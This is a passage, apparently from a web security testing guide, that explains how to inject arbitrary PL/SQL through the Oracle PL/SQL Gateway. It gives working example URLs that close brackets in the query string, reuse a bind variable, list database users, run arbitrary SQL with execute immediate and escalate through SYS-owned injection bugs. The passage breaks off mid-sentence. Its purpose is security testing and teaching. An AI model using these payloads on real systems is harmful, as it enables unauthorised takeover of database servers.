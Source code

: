`JAVA_AUTONOMOUS_TRANSACTION.PUSH`\
`XMLGEN.USELOWERCASETAGNAMES`\
`PORTAL.WWV_HTP.CENTERCLOSE`\
`ORASSO.HOME`\
`WWC_VERSION.GET_HTTP_DATABASE_INFO`

An attacker should pick one of these functions that is actually available on the target system (i.e., returns a 200 OK when requested). As a test, an attacker can request

`http://server.example.com/pls/dad/orasso.home?FOO=BAR`

the server should return a “404 File Not Found” response because the orasso.home procedure does not require parameters and one has been supplied. However, before the 404 is returned, the following PL/SQL is executed:

`..`\
`..`\
`if ((owa_match.match_pattern('orasso.home', simple_list__, complex_list__, true))) then`\
` rc__ := 2;`\
`else`\
`   null;`\
`   orasso.wpg_session.init();`\
`   orasso.home(FOO=>:FOO);`\
`   ..`\
`   ..`

Note the presence of FOO in the attacker’s query string. Attackers can abuse this to run arbitrary SQL. First, they need to close the brackets:

`http://server.example.com/pls/dad/orasso.home?);--=BAR`

This results in the following PL/SQL being executed:

`..`\
`orasso.home();--=>:);--);`\
`..`

Note that everything after the double minus (--) is treated as a comment. This request will cause an internal server error because one of the bind variables is no longer used, so the attacker needs to add it back. As it happens, it’s this bind variable that is the key to running arbitrary PL/SQL. For the moment, they can just use HTP.PRINT to print BAR, and add the needed bind variable as :1:

`http://server.example.com/pls/dad/orasso.home?);HTP.PRINT(:1);--=BAR`

This should return a 200 with the word “BAR” in the HTML. What’s happening here is that everything after the equals sign - BAR in this case - is the data inserted into the bind variable. Using the same technique it’s possible to also gain access to owa\_util.cellsprint again:

`http://www.example.com/pls/dad/orasso.home?);OWA_UTIL.CELLSPRINT(:1);--=SELECT+USERNAME+FROM+ALL_USERS`

To execute arbitrary SQL, including DML and DDL statements, the attacker inserts an execute immediate :1:

`http://server.example.com/pls/dad/orasso.home?);execute%20immediate%20:1;--=select%201%20from%20dual`

Note that the output won’t be displayed. This can be leveraged to exploit any PL/SQL injection bugs owned by SYS, thus enabling an attacker to gain complete control of the backend database server. For example, the following URL takes advantage of the SQL injection flaws in DBMS\_EXPORT\_EXTENSION (see <http://secunia.com/advisories/19860>)
